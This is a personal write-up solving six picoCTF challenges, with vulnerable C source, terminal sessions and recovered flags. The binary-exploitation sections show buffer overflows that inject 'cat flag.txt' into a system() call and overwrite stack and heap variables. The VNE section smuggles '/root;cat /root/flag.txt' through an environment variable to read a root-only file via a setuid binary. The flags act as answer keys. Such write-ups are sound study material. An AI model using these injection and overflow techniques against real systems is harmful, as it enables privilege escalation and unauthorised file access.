

# 1. Input Injection 1 
>A friendly program wants to greet you… but its goodbye might say more than it should. Can you convince it to reveal the flag? connect to the challenge instance `nc saffron-estate.picoctf.net 51977`. You can Download the program file [here](https://challenge-files.picoctf.net/c_saffron_estate/631dc6411ad5e76378c43071cddbbeee30bdaefa81f9a4c1fc36816e27628f01/vuln). And source [code](https://challenge-files.picoctf.net/c_saffron_estate/631dc6411ad5e76378c43071cddbbeee30bdaefa81f9a4c1fc36816e27628f01/vuln.c)
>(binex-medium)

Contents of `vuln.c`
```c
#include <string.h>
#include <stdio.h>
#include <stdlib.h>

void fun(char *name, char *cmd);

int main() {
    char name[200];
    printf("What is your name?\n");
    fflush(stdout);


    fgets(name, sizeof(name), stdin);
    name[strcspn(name, "\n")] = 0;

    fun(name, "uname");
    return 0;
}

void fun(char *name, char *cmd) {
    char c[10];
    char buffer[10];

    strcpy(c, cmd);
    strcpy(buffer, name);

    printf("Goodbye, %s!\n", buffer);
    fflush(stdout);
    system(c);
}
```

## Solve:
- Here I could see that the inputted string and the string `uname` gets passed as parameters to the function `fun`. In that, the newly defined variable `buffer` gets printed and variable `c` gets forwarded to system as a command.
```zsh
sparsh@LAPTOP-F80QI4V2 ~/ctf/picoAF/inputink $ ./vuln
What is your name?
Sparsh
Goodbye, S
```
- I had to somehow create an overflow that made the input go the variable `c`, so I first tried by trial and error and inputted a lot of `A`s to the terminal to see what the command does.
```
sparsh@LAPTOP-F80QI4V2 ~/ctf/picoAF/inputink $ ./vuln
What is your name?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Goodbye, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
sh: 1: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA: not found
[1]    756 segmentation fault (core dumped)  ./vuln
```
- I could see that after some `A`s, the program throwed two errors, first the usual `Segment Violation` and also `not found` which meant that some part of my input did get leaked as a system command.
- Again looking at the code, I looked at the sizes of the variables `c` and `buffer` which was `10`, so I created an injection of `10` random characters and inputted the system command I want to you, here being `ls`.
```zsh
sparsh@LAPTOP-F80QI4V2 ~/ctf/picoAF/inputink $ nc saffron-estate.picoctf.net 51977
What is your name?
1234567890ls
Goodbye, 1234567890ls!
flag.txt
```
- Hence, in the next iteration I used `cat flag` with the same injection and got the flag.
```zsh
sparsh@LAPTOP-F80QI4V2 ~/ctf/picoAF/inputink $  nc saffron-estate.picoctf.net 55705
What is your name?
1234567890cat flag.txt
Goodbye, 1234567890cat flag.txt!
picoCTF{0v3rfl0w_c0mm4nd_8499c65e}
```

## Flag:
```
picoCTF{0v3rfl0w_c0mm4nd_8499c65e}
```

## Notes and Concepts Learnt:
- Trial and error is okay, but I should try to read the code entirely and get the optimal solution before hand
# 2. heap 1
>Can you control your overflow? Download the binary here. Download the source here.
Additional details will be available after launching your challenge instance.
>(binex-medium)

Contents of `chall.c`
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define FLAGSIZE_MAX 64
// amount of memory allocated for input_data
#define INPUT_DATA_SIZE 5
// amount of memory allocated for safe_var
#define SAFE_VAR_SIZE 5

int num_allocs;
char *safe_var;
char *input_data;

void check_win() {
    if (!strcmp(safe_var, "pico")) {
        printf("\nYOU WIN\n");

        // Print flag
        char buf[FLAGSIZE_MAX];
        FILE *fd = fopen("flag.txt", "r");
        fgets(buf, FLAGSIZE_MAX, fd);
        printf("%s\n", buf);
        fflush(stdout);

        exit(0);
    } else {
        printf("Looks like everything is still secure!\n");
        printf("\nNo flage for you :(\n");
        fflush(stdout);
    }
}

void print_menu() {
    printf("\n1. Print Heap:\t\t(print the current state of the heap)"
           "\n2. Write to buffer:\t(write to your own personal block of data "
           "on the heap)"
           "\n3. Print safe_var:\t(I'll even let you look at my variable on "
           "the heap, "
           "I'm confident it can't be modified)"
           "\n4. Print Flag:\t\t(Try to print the flag, good luck)"
           "\n5. Exit\n\nEnter your choice: ");
    fflush(stdout);
}

void init() {
    printf("\nWelcome to heap1!\n");
    printf(
        "I put my data on the heap so it should be safe from any tampering.\n");
    printf("Since my data isn't on the stack I'll even let you write whatever "
           "info you want to the heap, I already took care of using malloc for "
           "you.\n\n");
    fflush(stdout);
    input_data = malloc(INPUT_DATA_SIZE);
    strncpy(input_data, "pico", INPUT_DATA_SIZE);
    safe_var = malloc(SAFE_VAR_SIZE);
    strncpy(safe_var, "bico", SAFE_VAR_SIZE);
}

void write_buffer() {
    printf("Data for buffer: ");
    fflush(stdout);
    scanf("%s", input_data);
}

void print_heap() {
    printf("Heap State:\n");
    printf("+-------------+----------------+\n");
    printf("[*] Address   ->   Heap Data   \n");
    printf("+-------------+----------------+\n");
    printf("[*]   %p  ->   %s\n", input_data, input_data);
    printf("+-------------+----------------+\n");
    printf("[*]   %p  ->   %s\n", safe_var, safe_var);
    printf("+-------------+----------------+\n");
    fflush(stdout);
}

int main(void) {

    // Setup
    init();
    print_heap();

    int choice;

    while (1) {
        print_menu();
        if (scanf("%d", &choice) != 1) exit(0);

        switch (choice) {
        case 1:
            // print heap
            print_heap();
            break;
        case 2:
            write_buffer();
            break;
        case 3:
            // print safe_var
            printf("\n\nTake a look at my variable: safe_var = %s\n\n",
                   safe_var);
            fflush(stdout);
            break;
        case 4:
            // Check for win condition
            check_win();
            break;
        case 5:
            // exit
            return 0;
        default:
            printf("Invalid choice\n");
            fflush(stdout);
        }
    }
}
```

## Solve:
- Having already done `heap 0`, I had the idea that I have to somehow change the `safe variable` to get the flag. This time the `safe var` had to be equal to `pico` to get the flag.
- Let's boot into the challenge and see if we can somehow replace the value of `safe var`
```zsh
1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 2
Data for buffer: 1234567890123456789012345678901234567890123456789pico

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 3


Take a look at my variable: safe_var = 34567890123456789pico


1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit
```
- And after inputting some random characters, I could see that the value of the `safe var` did change, looking at the terminal again, I could see that the overflow was caused after 32 characters.
```
sparsh@LAPTOP-F80QI4V2 ~/ctf/heap/heap1 $ nc tethys.picoctf.net 61674

Welcome to heap1!
I put my data on the heap so it should be safe from any tampering.
Since my data isn't on the stack I'll even let you write whatever info you want to the heap, I already took care of using malloc for you.

Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data
+-------------+----------------+
[*]   0x6494dfb092b0  ->   pico
+-------------+----------------+
[*]   0x6494dfb092d0  ->   bico
+-------------+----------------+

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 2
Data for buffer: 12345678901234567890123456789012pico

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 4

YOU WIN
picoCTF{starting_to_get_the_hang_b9064d7c}
```

## Flag:
```
picoCTF{starting_to_get_the_hang_b9064d7c}
```

## Notes and Concepts Learnt:
- The reference used for this program was `heap 0` from `picoCTF`, which is the prior challenge to this.
# 3. VNE
>We've got a binary that can list directories as root, try it out !! ssh to saturn.picoctf.net:53978, and run the binary named "bin" once connected. Login as ctf-player with the password, d137d16e
>(binex-medium)

## Solve:
- This challenge required me to connect to a server using `ssh` and somehow get the flag.
- After I booted in, I used `ls` to see the files in my current working directory-
```zsh
ctf-player@pico-chall$ ls
bin
ctf-player@pico-chall$ file bin
bin: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=202cb71538089bb22aa22d5d3f8f77a8a94a826f, for GNU/Linux 3.2.0, not stripped
ctf-player@pico-chall$ ./bin
Error: SECRET_DIR environment variable is not set
```
- Here I could see that the file located in `cwd` was an executable file, trying to execute it, it showed an error saying the `SECRET_DIR` environment variable was not set.
- I set up a random directory as the as the `SECRET_DIR` variable and once again ran the executable.
```zsh
ctf-player@pico-chall$ export SECRET_DIR
ctf-player@pico-chall$ ./bin
Listing the content of ./bin as root:
./bin
```
- From this I understood that the executable used the `ls` command on the directory set to `SECRET_DIR`.
- I tried using it on a lot of directories available, I also found one `/challenge` directory which was not accessible through normal `ls` or any other command, it provided three files but was very fruitful.
```zsh
ctf-player@pico-chall$ SECRET_DIR="/challenge"
ctf-player@pico-chall$ ./bin
Listing the content of /challenge as root:
config-box.py  metadata.json  profile
```
- So I looked at the first hint which said to look under the `root`  directory.
```zsh
ctf-player@pico-chall$ SECRET_DIR="/root"
ctf-player@pico-chall$ ./bin
Listing the content of /root as root:
flag.txt
```
- And there it was `flag.txt`, trying to use normal `cat` from the command line didn't work.
```zsh
ctf-player@pico-chall$ cat /root/flag.txt
cat: /root/flag.txt: Permission denied
```
- I tried using `/bin/cat` but that also didn't work.
- I got an idea, I could see that the directory I put in `SECRET_DIR` goes through the `ls` command so that means that if I put any other command after the directory name with a `;`, it would result in also executing that program, So I tried to do so.
```zsh
ctf-player@pico-chall$ SECRET_DIR="/root;cat /root/flag.txt"
ctf-player@pico-chall$ ./bin
Listing the content of /root;cat /root/flag.txt as root:
flag.txt
picoCTF{Power_t0_man!pul4t3_3nv_19a6873b}
```
- And that actually printed the flag!

## Flag:
```
picoCTF{Power_t0_man!pul4t3_3nv_19a6873b}
```

## Notes and Concepts Learnt:
- The challenge could've been solved without looking at the hints, knowing that the executable had `sudo` privileges, I could've used `find / -name "flag"` with the executable and gotten the exact location the `.txt` file.

# 4. Local Target
>Smash the stack Can you overflow the buffer and modify the other local variable? The program is available [here](https://artifacts.picoctf.net/c/517/local-target). You can view source [here](https://artifacts.picoctf.net/c/517/local-target.c). And connect with it using: `nc saturn.picoctf.net 63277`

Contents of `local-target.c`
```c
#include <stdio.h>
#include <stdlib.h>


int main(){
  FILE *fptr;
  char c;

  char input[16];
  int num = 64;

  printf("Enter a string: ");
  fflush(stdout);
  gets(input);
  printf("\n");

  printf("num is %d\n", num);
  fflush(stdout);

  if( num == 65 ){
    printf("You win!\n");
    fflush(stdout);
    // Open file
    fptr = fopen("flag.txt", "r");
    if (fptr == NULL)
    {
        printf("Cannot open file.\n");
        fflush(stdout);
        exit(0);
    }

    // Read contents from file
    c = fgetc(fptr);
    while (c != EOF)
    {
        printf ("%c", c);
        c = fgetc(fptr);
    }
    fflush(stdout);

    printf("\n");
    fflush(stdout);
    fclose(fptr);
    exit(0);
  }

  printf("Bye!\n");
  fflush(stdout);
}
```

## Solve:
- Booting into the challenge, I was asked to input a string,
```zsh
sparsh@LAPTOP-F80QI4V2 ~/ctf/ltarget $ nc saturn.picoctf.net 63277
Enter a string: 12345678901234567890

num is 64
Bye!
```
- I tried to create an overflow by inputting some more random characters, After I saw that after 24 characters, the value of `num` gets changed.
- Now I had to figure out what I had to input to get the value to be changed to `65`.
```
sparsh@LAPTOP-F80QI4V2 ~/ctf/ltarget $ nc saturn.picoctf.net 63277
Enter a string: 12345678901234567890123410

num is 12337
Bye!

sparsh@LAPTOP-F80QI4V2 ~/ctf/ltarget $ ./local-target
Enter a string: 1234567890123456789012342

num is 50
Bye!

Enter a string: 12345678901234567890123410

num is 12337
Bye!
sparsh@LAPTOP-F80QI4V2 ~/ctf/ltarget $ ./local-target
Enter a string: 1234567890123456789012340

num is 48
Bye!
sparsh@LAPTOP-F80QI4V2 ~/ctf/ltarget $ ./local-target
Enter a string: 12345678901234567890123411

num is 12593
Bye!
sparsh@LAPTOP-F80QI4V2 ~/ctf/ltarget $ ./local-target
Enter a string: AAAAAAAAAAAAAAAAAAAAAAAA12

num is 12849
Bye!
sparsh@LAPTOP-F80QI4V2 ~/ctf/ltarget $ ./local-target
Enter a string: AAAAAAAAAAAAAAAAAAAAAAAA

num is 0

```
- From this I incurred that inputting any number from `1` to `9` after 24 characters changed the value to `49` to `57`.
- Something had to inputted that made the value change to `65`, so I tried using different characters.
```
sparsh@LAPTOP-F80QI4V2 ~/ctf/ltarget $ ./local-target
Enter a string: 123456789012345678901234E

num is 69
Bye!
sparsh@LAPTOP-F80QI4V2 ~/ctf/ltarget $ ./local-target\
>
sparsh@LAPTOP-F80QI4V2 ~/ctf/ltarget $ ./local-target
Enter a string: 123456789012345678901234A

num is 65
You win!
```
- After finding the correct value, I connected through the `nc` port and got the flag.
```zsh
sparsh@LAPTOP-F80QI4V2 ~/ctf/ltarget $ nc saturn.picoctf.net 60943
Enter a string: 123456789012345678901234A

num is 65
You win!
picoCTF{l0c4l5_1n_5c0p3_fee8ef05}
```

## Flag:
```
picoCTF{l0c4l5_1n_5c0p3_fee8ef05}
```

## Notes and Concepts Learnt:
- I did this entirely based off of trial and error, I think a script can be made to automate the entire process which I did.

# 5. M1n10n'5_53cr37
> Get ready for a mischievous adventure with your favorite Minions! 🕵️‍♂️💥 They’ve been up to their old tricks, and this time, they've hidden the flag in a devious way within the Android source code. Your task is to channel your inner Minion and dive into the disassembled or decompiled code. Watch out, because these little troublemakers have hidden the flag in multiple sneaky spots or maybe even pulled a fast one and concealed it in the same location! Put on your overalls, grab your magnifying glass, and get cracking. The Minions have left clues, and it's up to you to follow their trail and uncover the flag. Can you outwit these playful pranksters and find their secret? Let the Minion mischief begin! Find the android apk here [Minions Mobile Application](https://challenge-files.picoctf.net/c_saffron_estate/952de3d4a637dda4d8f2d6f6630ce8c0e4dbcf83d65914382d8cb08a546d2a3d/minions.apk) and try to get the flag.
> (rev_eng-medium)

## Solve:
- I was given an `apk` file. I downloaded it on my phone, on the home screen it had a pictures of the minion characters and a message below.
	`Look into me my Banana Value is interesting`
	
	
- Then I decompiled the `apk` file using `decompiler.com` using `jadx` decompiler for Android.
- I was provided with two folders, `resources` and `sources`
- I searched where all the strings of the java app are stored, and I got to know that they are stored in `resources/res/values/strings.xml`
- Opening the file, I was shown this
```
<?xml version="1.0" encoding="utf-8"?>                                                                        <resources>                                                                                                       <string name="Banana">OBUWG32DKRDHWMLUL53TI43OG5PWQNDSMRPXK3TSGR3DG3BRNY4V65DIGNPW2MDCGFWDGX3DGBSDG7I=</string>
    <string name="abc_action_bar_home_description">Navigate home</string>
    <string name="abc_action_bar_up_description">Navigate up</string>
    <string name="abc_action_menu_overflow_description">More options</string>
    <string name="abc_action_mode_done">Done</string>
```
- I put it on `dcode.fr` and found out that this value is encrypted in Base32, then I decrypted it using the website and got the flag.
	
	

## Flag:
```
picoCTF{1t_w4sn7_h4rd_unr4v3l1n9_th3_m0b1l3_c0d3
```

## Notes and Concepts Learnt:
- I learnt how to decompile java applications and learnt where crucial data is located.


# 6. packer
>Reverse this linux executable? [binary](https://artifacts.picoctf.net/c_titan/103/out)
>(rev-eng-medium)
## Solve:
- The first thing I did was to launch the challenge
```zsh
sparsh@LAPTOP-F80QI4V2 ~/ctf/packer $ ./out
Enter the password to unlock this file: 120
You entered: 120

Access denied
```
- That didn't seem to work, the next two thing I wanted to try was `strings` and `objdump`, so I could maybe get some data out of it. `objdump` gave no result at at all.
```
sparsh@LAPTOP-F80QI4V2 ~/ctf/packer $ objdump -d out

out:     file format elf64-x86-64
```
- So I looked at the strings, at the last only one string looked useful which was `UPX`
```zsh
sparsh@LAPTOP-F80QI4V2 ~/ctf/packer $ strings out
...
n`I C
ot      +da$
.bssh
?p! _
H_db
UPX!
UPX!
```
- I searched it up on the net and found that `UPX` is `Ultimate Packer for eXecutables` and installed `upx` on my `wsl` install.
```zsh
sparsh@LAPTOP-F80QI4V2 ~/ctf/packer $ sudo apt install upx
```
- Then I used the command to decompile it into normal executable.
```zsh
sparsh@LAPTOP-F80QI4V2 ~/ctf/packer $ upx -d out
```
- Again I used `strings` again to check if some string has the contents `flag`.
```zsh
sparsh@LAPTOP-F80QI4V2 ~/ctf/packer $ strings out | grep "flag"
Password correct, please see flag: 7069636f4354467b5539585f556e5034636b314e365f42316e34526933535f36666639363465667d
(mode_flags & PRINTF_FORTIFY) != 0
WARNING: Unsupported flag value(s) of 0x%x in DT_FLAGS_1.
version == NULL || !(flags & DL_LOOKUP_RETURN_NEWEST)
flag.c
_dl_x86_hwcap_flags
_dl_stack_flags
```
- Here I found the flag encoded in some cipher and put it in `dcode.fr` when I found out was `ASCII` code. Then I decrypted it and found the flag.
	
	
## Flag:
```
picoCTF{U9X_UnP4ck1N6_B1n4Ri3S_6ff964ef}
```

## Notes and Concepts Learnt:
- I learnt what are `UPX` executables and how they work.
- I learnt how to decompile UPX executables.

